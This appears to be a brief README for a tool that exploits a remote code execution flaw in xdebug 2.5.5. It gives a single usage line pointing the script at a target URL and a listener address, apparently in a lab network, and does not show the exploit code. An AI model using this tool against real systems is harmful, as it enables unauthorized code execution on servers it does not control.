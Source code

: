 # xdebug-2.5.5
An automated exploit to the xdebug 2.5.5 RCE vulnerability
python3 xdebug.py -u http://10.10.10.83/index.php -l 10.10.16.3
